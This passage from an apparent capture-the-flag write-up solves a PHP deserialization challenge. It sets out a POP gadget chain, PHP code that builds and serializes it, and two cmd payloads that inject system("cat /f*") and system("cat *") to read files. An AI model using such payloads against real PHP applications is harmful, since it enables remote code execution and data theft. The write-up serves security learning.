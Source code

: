 ```php
//    }

}

//if (isset($_POST['cmd'])) {
//    unserialize($_POST['cmd']);
//} else {
//    highlight_file(__FILE__);
//}
//fin::__destruct()->what::__toString()->mix::run()->crow::__invoke()->fin::__call()->mix::get_flag()

$a = new fin();
$a->f1 = new what();
$a->f1->a = new mix();
$a->f1->a->m1 = new crow();
$a->f1->a->m1->v1 = new fin();
$a->f1->a->m1->v1->f1 = new mix();

echo serialize($a);
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732882918821-02261ee3-ead9-4433-b00f-f627d3218e90.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732882899479-f7a97f9c-f7a9-45a6-b913-37e3db822123.png)

之后查一下

```php
cmd=O:3:"fin":1:{s:2:"f1";O:4:"what":1:{s:1:"a";O:3:"mix":1:{s:2:"m1";O:4:"crow":2:{s:2:"v1";O:3:"fin":1:{s:2:"f1";O:3:"mix":1:{s:2:"m1";s:27:"?><?php system("cat /f*")?>";}}s:2:"v2";N;}}}}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732883168073-1aa28389-585c-426e-b0c2-1efcaa9be42a.png)

```php
cmd=O:3:"fin":1:{s:2:"f1";O:4:"what":1:{s:1:"a";O:3:"mix":1:{s:2:"m1";O:4:"crow":2:{s:2:"v1";O:3:"fin":1:{s:2:"f1";O:3:"mix":1:{s:2:"m1";s:25:"?><?php system("cat *")?>";}}s:2:"v2";N;}}}}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732883276321-7b8f0270-a49c-4065-bdd1-c3bb866b2695.png)

